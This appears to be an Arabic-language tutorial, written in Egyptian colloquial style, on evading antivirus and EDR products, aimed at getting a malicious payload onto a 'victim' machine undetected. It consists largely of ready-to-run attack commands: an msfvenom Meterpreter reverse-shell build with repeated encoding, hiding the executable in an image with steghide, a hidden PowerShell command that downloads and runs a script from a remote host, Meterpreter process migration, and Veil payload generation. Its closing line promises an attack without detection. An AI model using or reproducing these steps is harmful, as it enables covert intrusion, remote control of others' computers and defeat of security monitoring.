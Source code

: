 هيا بنا نبدأ بتفصيل أعمق وأبسط حول **تخطي برامج الحماية مثل الـ Antivirus و الـ EDR (Endpoint Detection & Response)**، بحيث نوضح المفاهيم بطريقة سلسة مع الخلاصة بالعامية المصرية بعد كل جزء، بالإضافة إلى خطوات عملية في النهاية.

---

# **🚀 تجاوز الحماية (Evasion Techniques) - تخطي الـ Antivirus والـ EDR 🚀**

## **🔹 يعني إيه Antivirus و EDR بيكشف الـ Payload؟**

أي هجوم بيتطلب إنك تبعت **كود خبيث (Payload)** على جهاز الضحية. المشكلة إن برامج الحماية زي الـ **Antivirus (AV)** والـ **EDR** دورهم يكشفوا أي ملف أو سلوك مشبوه ويمنعوه.

✔ **الـ Antivirus بيشتغل بطريقتين أساسيتين:**

- 🛑 **Signature-based detection**: بيدور على بصمة (Signature) معينة في الملفات ولو لقى حاجة مشبوهة يحذفها.
- 🛑 **Heuristic-based detection**: بيراقب سلوك البرامج، ولو لقى حاجة غريبة يمنعها.

✔ **الـ EDR بيكون أقوى شوية من الـ AV لأنه بيعمل الآتي:**

- 👀 بيراقب العمليات شغالة إزاي.
- 🔍 بيحلل سلوك المستخدم والبرامج على الجهاز.
- 🛡️ بيسجل كل حاجة بتحصل عشان المحلل الأمني يراجعها.

✅ **هدفنا إننا نخدع الـ AV والـ EDR بحيث ما يكشفوش الـ Payload بتاعنا!**

---

## **🟢 1. تشفير (Encoding) الـ Payload لتغيير بصمته**

**الفكرة:** لو غيرنا شكل الكود بتاعنا بحيث يبان مختلف عن الـ Signatures اللي الـ Antivirus عارفها، مش هيقدر يمسحه.

🛠 **باستخدام `MSFVenom` لتشفير الـ Payload:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe > payload.exe
```

🔹 **`-e x86/shikata_ga_nai`**: بيستخدم Encoder اسمه `shikata_ga_nai` عشان يشفر الكود.  
🔹 **`-i 10`**: بيعيد التشفير 10 مرات، وبالتالي البصمة بتاعته بتتغير كل مرة.

🎯 **💬 الخلاصة بالمصري:**  
"احنا بنغير شكل الفايل عشان الـ Antivirus ميعرفش يمسكه.. زي لما تغير لبسك عشان الشرطة متعرفكش 😆"

---

## **🟢 2. إخفاء الـ Payload جوا ملفات تانية (Steganography)**

**الفكرة:** الضحية ممكن يشك لو شاف ملف exe، لكن مش هيشك لو كان الملف صورة أو PDF.

🛠 **إخفاء الـ Payload داخل صورة باستخدام `steghide`:**

```bash
steghide embed -cf image.jpg -ef payload.exe
```

🛠 **استخراج الـ Payload لاحقًا من الصورة:**

```bash
steghide extract -sf image.jpg
```

🎯 **💬 الخلاصة بالمصري:**  
"بدل ما تبعت فيروس كـ ملف واضح، خبّيه جوا صورة بريئة والضحية مش هياخد باله 😏"

---

## **🟢 3. تشغيل الـ Payload في الذاكرة بدل ما يتحفظ على القرص (Fileless Execution)**

**الفكرة:** برامج الـ Antivirus بتمسح الملفات المشبوهة، فلو شغلناه في الذاكرة (RAM) مش هيقدر يمسكه.

🛠 **تشغيل الكود مباشرة في الذاكرة باستخدام PowerShell:**

```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.10/payload.ps1')"
```

🔹 `-nop`: يمنع تشغيل الـ PowerShell بسياسات الحماية الافتراضية.  
🔹 `-w hidden`: يمنع ظهور النافذة.  
🔹 `IEX(New-Object Net.WebClient).DownloadString(...)`: بينفذ الكود مباشرة من الإنترنت.

🎯 **💬 الخلاصة بالمصري:**  
"بدل ما تحط الفيروس في ملف، خليه يشتغل في الذاكرة على طول، كأنك بتسرق حاجة من غير ما تسيب بصمات 😏"

---

## **🟢 4. تشغيل الـ Payload جوه عملية موثوقة (Process Injection)**

**الفكرة:** بدل ما تشغل الـ Payload كبرنامج منفصل، خليه يندمج داخل برنامج شغال أصلاً (زي `explorer.exe`).

🛠 **حقن الـ Payload داخل عملية موثوقة في Meterpreter:**

```bash
meterpreter > ps
meterpreter > migrate [PID]
```

🔹 `ps`: بيعرض كل العمليات الشغالة.  
🔹 `migrate [PID]`: بينقل الكود لعملية موثوقة شغالة، زي `explorer.exe`.

🎯 **💬 الخلاصة بالمصري:**  
"لو لبست لبس حد مشهور مش هيشكوا فيك، نفس الفكرة، خلّي الفيروس يستخبى جوا برنامج ويندوز معروف 😈"

---

## **🟢 5. تعديل الكود عشان ما يبقاش سهل اكتشافه (Obfuscation)**

**الفكرة:** أي كود له شكل مميز ممكن الـ Antivirus يتعرف عليه، فلو غيرنا ترتيب الأوامر وأضفنا حاجات مالهاش لازمة، هنخدعه.

🛠 **استخدام Veil Framework لإنشاء Payload غير قابل للاكتشاف:**

```bash
veil
use 1
set LHOST 192.168.1.10
set LPORT 4444
generate
```

🎯 **💬 الخلاصة بالمصري:**  
"غيّر شكل الفيروس، وبدل ما يكون واضح، حوّله لحاجة غامضة مفيش Antivirus يعرفها 😁"

---

# **🛠️ خطوات عملية لتخطي الحماية (Antivirus & EDR Bypass)**

✅ **1. تشفير الـ Payload لتغيير بصمته:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe > payload.exe
```

✅ **2. إخفاء الـ Payload داخل صورة:**

```bash
steghide embed -cf image.jpg -ef payload.exe
```

✅ **3. تشغيل الـ Payload بدون حفظه على القرص باستخدام PowerShell:**

```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.10/payload.ps1')"
```

✅ **4. تشغيل الـ Payload داخل عملية موثوقة لتجنب الاشتباه:**

```bash
meterpreter > ps
meterpreter > migrate [PID]
```

✅ **5. تعديل الكود لجعله صعب الاكتشاف باستخدام Veil Framework:**

```bash
veil
use 1
set LHOST 192.168.1.10
set LPORT 4444
generate
```

🎯 **بكده تقدر تتخطى الحماية وتنفذ الهجوم من غير ما يتم اكتشافك! 🚀🔥**